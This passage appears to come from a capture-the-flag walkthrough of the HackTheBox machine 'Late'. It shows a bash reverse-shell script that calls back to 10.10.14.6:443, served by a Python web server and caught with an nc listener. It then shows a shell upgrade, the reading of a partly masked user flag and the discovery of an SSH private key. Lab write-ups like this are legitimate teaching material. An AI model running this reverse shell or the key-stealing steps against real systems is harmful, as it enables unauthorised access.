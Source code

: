     
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

And host it with `python3 -m http.server 80`. On submitting, it gets `r` from
my webserver:

    
    
    10.10.11.156 - - [25/Jul/2022 17:13:04] "GET /r HTTP/1.1" 200 -
    

And then there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.156 55630
    bash: cannot set terminal process group (1237): Inappropriate ioctl for device
    bash: no job control in this shell
    svc_acc@late:~/app$
    

I’ll upgrade the shell using the standard tricks ([explained
here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    svc_acc@late:~/app$ script /dev/null -c bash
    Script started, file is /dev/null
    svc_acc@late:~/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    svc_acc@late:~/app$
    

And grab `user.txt`:

    
    
    svc_acc@late:~$ cat user.txt
    91974f93************************
    

### SSH

There’s also a RSA key pair in `/home/svc_acc/.ssh`:

    
    
    svc_acc@late:~/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub
    

I’ll download `id_rsa` and use it to connect with an even more solid shell:

    
